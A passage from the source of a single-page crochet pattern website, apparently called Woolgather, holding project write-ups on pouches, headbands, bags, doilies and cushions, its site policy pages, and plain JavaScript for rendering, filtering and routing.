  content:`<p>Some of the most satisfying crochet projects work by suggestion rather than detail. A strawberry pouch is a good example. The body is a simple cylinder with a flat base, but add a green scalloped rim and a scattering of pale seed stitches and the object becomes unmistakable. No colourwork, no fiddly assembly, no chart to follow.</p><h2>Start with a flat circular base</h2><p>Increase evenly around the centre until the base reaches the width you want. You want it to stay flat rather than curling into a bowl too early. Once the diameter is right, stop increasing and let the sides rise in continuous rounds.</p><h2>Keep the fabric dense</h2><p>A pouch that holds earrings, earbuds or stitch markers needs a fabric that will not let small objects work their way through. Smooth cotton produces a compact stitch, holds its shape and gives you a clean surface for the seed embroidery.</p><div class="tip"><strong>Fibre note</strong><p>Cotton resists stretching far better than acrylic, which matters for a pouch that will be pulled open and closed hundreds of times.</p></div><h2>Plan the cord channel before the decorative edge</h2><p>Work one round with evenly spaced chain openings near the top of the red section, then follow it with a stabilising round before you add the green. Test the openings with the cord you intend to use — the drawstring should slide freely without catching, and the openings should not be so large that the rim goes floppy.</p><h2>Let the green top do the work</h2><p>Small leaf points or scallops around the rim suggest the leafy cap of a strawberry without a separate piece. Keep the decorative edge flexible enough that the drawstring still gathers the opening smoothly. If the scallops curl inward, reduce the stitch count slightly. If they flare too far, tighten the spacing between them.</p><h2>Seeds: less is more</h2><p>Use a yarn needle and a short length of cream yarn to make small straight stitches across the red surface. Space them unevenly enough to feel organic, but evenly enough that the design looks intentional. A sparse scattering reads as seeds. A dense covering reads as confusion.</p><blockquote>The pouch takes an evening. The seed stitches take ten minutes. Those ten minutes are what make it look finished.</blockquote><h2>Test the closure before you weave in</h2><p>Thread the cord, pull the pouch closed and open it a few times. If the gathering looks uneven, fix it while the tails are still accessible. Once the drawstring moves smoothly and the top closes neatly, secure the cord ends and weave the remaining tails into the inside of the pouch.</p>`
},
{
  id:'meadow-headband',
  title:'Meadow Flower Headband',
  category:'Wearables',
  level:'Easy',
  date:'31 August 2026',
  image:'./assets/boho-flower-headband.webp',
  specs:{yarn:'DK cotton',hook:'3.5 mm',size:'Adjustable',time:'1–2 hours'},
  excerpt:'A narrow ribbed band with three small flowers, designed to sit lightly behind the ears and stay comfortable well past the first hour.',
  content:`<p>Floral headbands have a habit of looking charming on the table and uncomfortable on the head. The trick is keeping both parts light: a narrow band that sits easily behind the ears, and small flowers that add interest without adding weight. Scale matters far more here than stitch choice.</p><h2>Choose yarn you can wear against your skin</h2><p>Use something smooth for the forehead and ears. Cotton, cotton blends and soft DK yarns are easy to control and hold small flowers in shape without going fuzzy after a few wears. Skip anything scratchy, however pretty the colour — you will feel it every single time you put the headband on.</p><h2>Size the band with stretch in mind</h2><p>Measure around the head where the band will sit, then make the strip slightly shorter than that measurement. Crochet fabric relaxes a little with wear. Test the fit before closing the final seam and keep the join easy to adjust until you are sure.</p><div class="tip"><strong>Strip construction</strong><p>A few rows of back-loop single crochet worked lengthwise give a clean edge, a soft rib and enough stretch without losing shape.</p></div><h2>Keep the flowers compact</h2><p>Five simple petals around a small centre are plenty. Make all three flowers roughly the same diameter even when the colours differ, so the cluster feels intentional rather than accidental. A layered, ruffly flower is heavier and much harder to attach flat — save that style for a brooch.</p><h2>Attach through the centre</h2><p>Sew each flower through its middle and one or two inner petal points rather than stitching all the way around the outside. This keeps the flowers stable while letting the outer petals stay slightly lifted, and it stops the band underneath from puckering.</p><blockquote>Shift the flower cluster slightly off centre rather than placing it dead middle. The asymmetry almost always makes the headband feel lighter and easier to wear.</blockquote><h2>Finish without bulk</h2><p>Close the band with a flat seam at the back of the head where it will be least visible. Use a yarn needle and mattress stitches rather than crocheting through several layers, which creates a noticeable lump. Hide every tail inside existing stitches.</p><p>A gentle steam or a very light block smooths the band and opens the petals, but do not stretch the headband to its full circumference while blocking — you want it to keep its elasticity. Once you are comfortable with the construction, the same approach scales easily to two larger flowers, a row of tiny ones or a single-shade version.</p>`
},
{
  id:'sage-hobo',
  title:'Sage Hobo Shoulder Bag',
  category:'Carry',
  level:'Intermediate',
  date:'28 August 2026',
  image:'./assets/sage-hobo-bag.webp',
  specs:{yarn:'Worsted cotton',hook:'5 mm',size:'38 × 30 cm',time:'10–12 hours'},
  excerpt:'A slouchy shoulder bag that stops just short of shapeless — the balance comes from stitch density, gradual shaping and where the strap actually lands.',
  content:`<p>The hobo bag is one of the most forgiving shapes in crochet and one of the easiest to get slightly wrong. A little slouch reads as relaxed. Too much slouch reads as a sack. The difference comes down to a handful of decisions made before the first stitch.</p><h2>Find the middle ground between stiff and floppy</h2><p>Make a swatch and pull it in both directions. You want enough density that small objects cannot work through the fabric, but enough flexibility that the finished bag folds softly against the body. Cotton and cotton blends sit comfortably in that middle zone. Very soft acrylics drift toward the floppy end.</p><div class="tip"><strong>Gauge check</strong><p>If the swatch grows noticeably when you stretch it sideways, go down a hook size before starting the body. A hobo bag that stretches sideways will not hold its shape.</p></div><h2>Create the width gradually</h2><p>The crescent silhouette comes from steady, controlled increases through the lower part of the bag rather than a sudden jump in stitch count. Work even through the widest section, then mirror the shaping with decreases as you approach the opening. Keep notes on every shaping round so the two sides stay symmetrical.</p><h2>Let the strap grow out of the edges</h2><p>An integrated strap — continuing the upper edges directly into the handle — keeps the silhouette smooth and avoids the bulky sewn-on attachments that can drag a soft bag out of shape. Keep the strap wide enough to spread weight comfortably across the shoulder, and check the length as you work. Most yarns relax slightly with use, so it is usually better to make the strap a little shorter than an unstretched measurement suggests.</p><h2>Reinforce the stress points</h2><p>The transitions where the strap meets the body take far more strain than the middle of the strap. Work those sections firmly, avoid loose chain spaces and consider running a discreet second strand of yarn along the inside for extra strength.</p><blockquote>A well-made hobo bag does not look reinforced. It just quietly holds its shape after a year of daily use.</blockquote><h2>Line it if it will be used daily</h2><p>A simple fabric lining reduces stretching, protects the crochet from keys and zippers, and stops small objects slipping between stitches. Add an interior pocket to the lining before you sew it in if you want extra organisation. Keep the lining loose enough that it does not pull on the crocheted body when the bag is full.</p><h2>Shape it gently</h2><p>Rather than blocking the bag completely flat, encourage the curved silhouette while the fabric is slightly damp and let it dry supported from the inside. This preserves the relaxed character without flattening the stitch texture. Always dry the bag with the strap supported so the weight of wet yarn does not stretch it out of shape.</p>`
},
{
  id:'round-lace-doily',
  title:'Blocking Is the Pattern: A Round Doily',
  category:'Lace',
  level:'Intermediate',
  date:'25 August 2026',
  image:'./assets/lace-doily.webp',
  specs:{yarn:'Size 10 crochet thread',hook:'1.75 mm',size:'30 cm diameter',time:'6–8 hours'},
  excerpt:'A round thread doily where the design only appears after blocking — the arches, the scallops and the symmetry all depend on the pins.',
  content:`<p>Lace crochet has an unusual relationship with finishing. A doily straight off the hook can look small, crumpled and faintly disappointing. The same doily, pinned and dried properly, opens into something crisp, geometric and quietly beautiful. For round thread work, blocking is not the final touch. It is part of the pattern.</p><h2>Count the repeat, not the stitches</h2><p>As the circle grows, check the number of arches, shells or repeated groups at the end of every round rather than counting individual stitches. One missed group near the centre becomes almost impossible to disguise by the outer rounds, and it will throw off every repeat that follows.</p><div class="tip"><strong>Early warning signs</strong><p>If the work cups upward, there may be too few increases or your tension is too tight. If it ruffles strongly, there may be too many stitches or the chain spaces are too loose. Fix the cause before continuing outward.</p></div><h2>Keep the scallops consistent</h2><p>The outer rounds define the character of the doily. Use the same stitch count for every section and resist the urge to tighten the final round to neaten it up. A slightly loose edge blocks into a beautiful scallop. A tightened edge blocks into a puckered one.</p><h2>Hide the thread ends in solid areas</h2><p>Open lace offers very few places to disguise a tail. Weave the starting and finishing ends through the denser parts of the motif where you can, and reverse direction once or twice instead of pulling the end straight through a single path. Trim only once you are confident the end will not work loose with handling.</p><h2>Block from the centre outward</h2><p>Dampen the finished piece according to the thread care instructions, then lay it flat on a blocking mat or a protected surface. Pin the centre first, then work outward in rings, measuring several radii as you go so the circle stays centred instead of drifting to one side. Shape each scallop individually with its own pin.</p><blockquote>A doily that dries unevenly will look uneven forever. The pins are doing half the work of the pattern.</blockquote><h2>Let it dry completely</h2><p>Remove the pins only after the lace is fully dry — usually overnight, sometimes longer in humid weather. The finished piece should show clean open spaces, crisply defined scallops and an even circumference. If a section springs back while drying, it needed more pins or a slightly wetter block.</p><h2>Display and care</h2><p>If the doily will sit under an object, choose something with a smooth base that will not snag the fine stitches. Store it flat or rolled gently rather than folded sharply. Handled with care, a well-blocked doily holds its shape for years.</p>`
},
{
  id:'heart-square-cushion',
  title:'Heart Square Cushion Cover',
  category:'Home',
  level:'Easy',
  date:'22 August 2026',
  image:'./assets/heart-granny-pillow.webp',
  specs:{yarn:'Worsted acrylic',hook:'5 mm',size:'45 × 45 cm',time:'5–6 hours'},
  excerpt:'A single large heart worked into a granny square, planned backward from a 45 cm insert so the cover fits the cushion instead of the other way round.',
  content:`<p>A large heart motif on a cushion works because the shape reads from across the room. The challenge is keeping it centred while the surrounding square grows evenly around it. A small drift in the early rounds becomes an obviously off-centre heart by the time the panel is finished. Planning the front backward from a known insert size makes the whole thing much easier.</p><h2>Choose the insert first</h2><p>Work backward from the cushion pad you intend to use rather than guessing the finished dimensions. A crochet cover can sit slightly smaller than the insert for a plump look, but the front and back panels should match each other exactly before assembly. Write the target measurement down and check the panel against it as you go.</p><div class="tip"><strong>Colour-change habit</strong><p>Introduce the new shade on the final yarn-over of the stitch before the change. That small habit produces a much cleaner boundary between the heart and the background than switching mid-stitch.</p></div><h2>Map the heart symmetrically</h2><p>Count the background stitches on both sides of the heart as the square grows. The motif should sit dead centre, with the same number of stitches to its left and right on every round. Even spacing matters far more than adding decorative detail to the heart itself.</p><h2>Use the border to square the panel</h2><p>Once the heart is complete, keep working outward in the background colour until all four edges reach the same measurement. Check the corners often — an even border is what makes the cushion look intentional rather than improvised. If the panel starts to cup or flare, adjust the corner stitch count before continuing.</p><h2>Decide whether the cover comes off</h2><p>A solid back panel is the simplest option. An overlapping envelope back — two rectangular panels that meet in the middle — makes the cover removable for washing, which is worth considering for a cushion that will actually be used. Build both back sections to the same dimensions as the front, with enough overlap that the insert cannot peek through.</p><blockquote>A cushion cover that washes easily is the difference between a cushion that lives on the sofa and one that lives in a cupboard.</blockquote><h2>Join while checking the corners</h2><p>Whether you sew the seam or crochet a visible join, match the edges without stretching one panel to fit the other. Start at the corners and work toward the middle of each side, checking that the panels stay aligned. Insert the pad and work the filling into each corner before closing the last side.</p><h2>Finishing</h2><p>Weave in every tail securely and shape the finished cushion gently by hand. Avoid aggressive blocking once the insert is in place. The finished piece sits comfortably on its own or alongside plain solid cushions. Once you are comfortable planning a front panel this way, the same construction adapts to stars, flowers, initials or any simple motif you want to build into a square.</p>`
}
];

const pages={
  about:{
    title:'Inside the Workshop',
    body:`<p>Woolgather is an independent crochet pattern library. Every entry begins with a real, finished object — a bag, a blanket, a toy, a piece of lace — and works backward through the decisions that shaped it.</p><p>Instead of treating patterns as strict recipes, the notes here lean toward construction thinking: how a form is built up, where a project needs reinforcement, where consistency matters, and how a piece is finished so that it survives actual use.</p><h2>What gets published here</h2><ul><li>Project notes for bags, blankets, accessories and home pieces</li><li>Motif planning, blocking and joining guidance</li><li>Amigurumi construction with minimal assembly</li><li>Finishing, reinforcement and care suggestions</li></ul><h2>Editorial approach</h2><p>Yarn weight, hook size, personal tension and fibre substitution all change the finished result. Every measurement and material suggestion in this library is a starting point, not a guarantee. Swatching and checking your progress as you work remain the most important steps in any handmade project.</p><h2>About the writing</h2><p>Articles are written in plain language, assuming the reader is comfortable with basic crochet stitches but may be new to a specific construction. Where a step is easy to rush, it is called out. Where a shortcut is tempting but harmful, it is noted. The goal is not to be clever — it is to be useful.</p>`
  },
  privacy:{
    title:'Privacy Policy',
    body:`<p><strong>Last updated:</strong> 21 September 2026</p><p>This Privacy Policy describes the types of information that may be processed when you visit Woolgather, and the choices available to you.</p><h2>Information collected automatically</h2><p>Our hosting provider and any analytics services in use may record limited technical data such as browser type, device category, approximate location, referring page, pages viewed and general interaction data. This information is typically used to maintain the site, understand traffic patterns and improve content.</p><h2>Cookies and similar technologies</h2><p>Cookies or comparable browser storage may be used for site functionality, analytics, user preferences or advertising services when those features are enabled. You can control, restrict or delete cookies through your browser settings at any time.</p><h2>Third-party providers</h2><p>Services used for hosting, analytics, advertising or embedded content may process information under their own privacy policies and terms. Their practices are governed by those providers rather than by this website.</p><h2>Data choices</h2><p>You may limit cookies through your browser, use privacy controls offered by relevant third-party services, or contact us directly with a privacy question related to this site.</p><h2>Policy updates</h2><p>This policy may be revised when the site, applicable services or legal requirements change. The date at the top of this page indicates the most recent revision.</p>`
  },
  terms:{
    title:'Terms of Use',
    body:`<p><strong>Last updated:</strong> 21 September 2026</p><p>By accessing Woolgather, you agree to use the site and its content in a lawful manner and subject to these terms.</p><h2>Creative and informational content</h2><p>Crochet articles are provided for general educational and inspirational purposes. Finished dimensions and results can differ because of yarn choice, hook size, personal tension, substitutions and individual technique.</p><h2>Responsibility for projects</h2><p>You are responsible for evaluating materials and construction choices for your intended use, including projects made for children, wearables, household use or items that carry weight.</p><h2>Site content</h2><p>Unless otherwise stated, original text, layout, branding and other site materials may not be copied, republished or redistributed in full without permission. You are welcome to use the ideas for your own personal crochet projects.</p><h2>External services and links</h2><p>The site may reference or link to third-party websites or services. We do not control their availability, content, security practices or policies, and we are not responsible for them.</p><h2>Changes to these terms</h2><p>These terms may be updated as the site develops. Continued use of the site after an update indicates acceptance of the revised terms.</p>`
  },
  contact:{
    title:'Get in Touch',
    body:`<p>Use the contact information below for corrections, general questions, collaboration enquiries or concerns about site content.</p><div class="contact-block"><strong>Email</strong><p>hello@example.com — replace this placeholder with the public address you want to publish.</p></div><h2>When asking about a project</h2><p>Please include the article title and describe the part of the project you are asking about. If your question concerns sizing or yarn substitution, include the yarn weight and hook size you are using — that context almost always turns a vague question into a useful answer.</p><h2>Response expectations</h2><p>Messages are reviewed as availability allows. We cannot guarantee individual pattern troubleshooting or provide emergency support, but thoughtful questions usually receive a thoughtful reply.</p><h2>Editorial corrections</h2><p>If you spot an error, a broken link or a step that does not add up, please write in with the article title and a short note about what you found. Corrections are always welcome and always appreciated.</p>`
  }
};

/* ============ TEMPLATES ============ */
function cardTemplate(p){
  return `<article class="card" data-cat="${p.category}" onclick="navigate('post','${p.id}')">
    <div class="card-img">
      
      <span class="card-cat">${p.category}</span>
    </div>
    <div class="card-body">
      <h3>${p.title}</h3>
      <p>${p.excerpt}</p>
      <div class="card-foot"><span>${p.level}</span><span class="go">Read →</span></div>
    </div>
  </article>`;
}

function chipTemplate(cat,label,on){
  return `<button class="chip${on?' on':''}" onclick="filterCards(this,'${cat}')">${label}</button>`;
}

/* ============ VIEWS ============ */
function renderHome(){
  const cats=['Carry','Home','Toys','Wearables','Lace','Small Things'];
  const chips=[chipTemplate('all','All',true)]
    .concat(cats.map(c=>chipTemplate(c,c,false)))
    .join('');

  document.getElementById('app').innerHTML=`
    <section class="hero">
      
      <div class="hero-in">
        <p class="kicker">Pattern Library · Volume Twelve</p>
        <h1>Make things that <em>hold up.</em></h1>
        <p class="hero-sub">Eight crochet projects written from the inside out — the shaping, the seams, the reinforcement and the finishing that decide whether a handmade object survives real use.</p>
        <div class="hero-act">
          <a class="btn btn-solid" onclick="goLibrary()">Browse the library</a>
          <a class="btn btn-ghost" onclick="navigate('page','about')">How it works</a>
        </div>
      </div>
    </section>

    <section class="strip">
      <div><span class="n">08</span><span class="l">Projects in this volume</span></div>
      <div><span class="n">06</span><span class="l">Categories covered</span></div>
      <div><span class="n">01</span><span class="l">Rule: measure after blocking</span></div>
    </section>

    <section class="block" id="library">
      <div class="block-head">
        <div>
          <h2>The library</h2>
          <p>Every entry starts with a finished object and works backward through the decisions that shaped it. Filter by what you feel like making.</p>
        </div>
        <span class="tag" id="gridCount">8 patterns</span>
      </div>
      <div class="chips">${chips}</div>
      <div class="grid" id="grid">${posts.map(cardTemplate).join('')}</div>
    </section>

    <section class="notes">
      <span class="eyebrow">Three habits</span>
      <h2>What every project in this library has in common.</h2>
      <div class="notes-grid">
        <div class="note">
          <span class="n">01</span>
          <h3>Plan the finish first</h3>
          <p>Before the first stitch, decide how the piece will be joined, edged, lined or closed. The end shape decides the beginning.</p>
        </div>
        <div class="note">
          <span class="n">02</span>
          <h3>Measure after blocking</h3>
          <p>Motifs grow, squares relax, cotton behaves differently than acrylic. Every dimension here assumes a blocked swatch.</p>
        </div>
        <div class="note">
          <span class="n">03</span>
          <h3>Reinforce what carries weight</h3>
          <p>Straps, seams, handle attachments and pouch openings take the most stress. They deserve the most attention.</p>
        </div>
      </div>
    </section>`;
  window.scrollTo(0,0);
}

function renderPost(id){
  const p=posts.find(x=>x.id===id);
  if(!p){renderNotFound();return}
  document.getElementById('app').innerHTML=`
    <article>
      <header class="art-hero">
        
        <div class="art-hero-in">
          <a class="back" onclick="navigate('home')">Library</a>
          <p class="kicker" style="margin-top:20px">${p.category} · ${p.level}</p>
          <h1>${p.title}</h1>
        </div>
      </header>
      <div class="art-wrap">
        <aside class="art-side">
          <div class="specs">
            <div class="spec-row"><span class="k">Yarn</span><span class="v">${p.specs.yarn}</span></div>
            <div class="spec-row"><span class="k">Hook</span><span class="v">${p.specs.hook}</span></div>
            <div class="spec-row"><span class="k">Size</span><span class="v">${p.specs.size}</span></div>
            <div class="spec-row"><span class="k">Time</span><span class="v">${p.specs.time}</span></div>
          </div>
          <div class="byline">
            
            <div>
              <strong>Woolgather Workshop</strong>
              <span>${p.date}</span>
            </div>
          </div>
          <a class="btn btn-line side-btn" onclick="navigate('home')">Back to the library</a>
        </aside>
        <div class="art-main">
          <p class="lede">${p.excerpt}</p>
          ${p.content}
          <div class="art-end">
            <p>Yarn weight, hook size and personal tension vary. Treat the measurements and materials here as a starting point, not a guarantee.</p>
            <a class="btn btn-line" onclick="navigate('home')">Back to the library</a>
          </div>
        </div>
      </div>
    </article>`;
  window.scrollTo(0,0);
}

function renderPage(id){
  const p=pages[id];
  if(!p){renderNotFound();return}
  const labels={about:'Workshop',privacy:'Policy',terms:'Legal',contact:'Reach out'};
  const subs={
    about:'A short note on what this library is and how it is written.',
    privacy:'How limited technical information is handled when you visit this site.',
    terms:'The practical terms that apply to using this site and its crochet content.',
    contact:'How to reach the workshop with questions, corrections or collaboration ideas.'
  };
  document.getElementById('app').innerHTML=`
    <div class="legal">
      <div class="crumbbar"><a class="back" onclick="navigate('home')">Library</a></div>
      <section class="legal-card">
        <header class="legal-head">
          <span class="label">${labels[id]||'Info'}</span>
          <h1>${p.title}</h1>
          ${subs[id]?`<p class="sub">${subs[id]}</p>`:''}
        </header>
        <div class="legal-body">${p.body}</div>
      </section>
    </div>`;
  window.scrollTo(0,0);
}

function renderNotFound(){
  document.getElementById('app').innerHTML=`
    <div class="notfound">
      <div class="code">404</div>
      <h2>That pattern is not in the library.</h2>
      <p>The project or information page you requested could not be found.</p>
      <a class="btn btn-solid" onclick="navigate('home')">Return to the library</a>
    </div>`;
  window.scrollTo(0,0);
}

/* ============ FILTER ============ */
function filterCards(btn,cat){
  document.querySelectorAll('.chip').forEach(c=>c.classList.toggle('on',c===btn));
  let shown=0;
  document.querySelectorAll('#grid .card').forEach(card=>{
    const show=(cat==='all'||card.dataset.cat===cat);
    card.style.display=show?'':'none';
    if(show)shown++;
  });
  const counter=document.getElementById('gridCount');
  if(counter)counter.textContent=shown+(shown===1?' pattern':' patterns');
}

/* ============ ROUTING ============ */
function goLibrary(){
  if(location.hash)history.replaceState(null,'',location.pathname+location.search);
  renderHome();
  requestAnimationFrame(()=>{
    const el=document.getElementById('library');
    if(el)el.scrollIntoView({behavior:'smooth',block:'start'});
  });
}

function navigate(view,id=null){
  if(view==='home'){
    history.replaceState(null,'',window.location.pathname+window.location.search);
    renderHome();
    return;
  }
  const h=view+'/'+id;
  if(window.location.hash.slice(1)===h){
    if(view==='post')renderPost(id); else if(view==='page')renderPage(id);
  }else{
    window.location.hash=h;
  }
}

window.addEventListener('hashchange',routeFromHash);
function routeFromHash(){
  const hash=window.location.hash.replace(/^#/,'');
  if(!hash){renderHome();return}
  const [type,...rest]=hash.split('/');
  const id=rest.join('/');
  if(type==='post')renderPost(id);
  else if(type==='page')renderPage(id);
  else renderNotFound();
}
routeFromHash();
</script>
</body>
</html>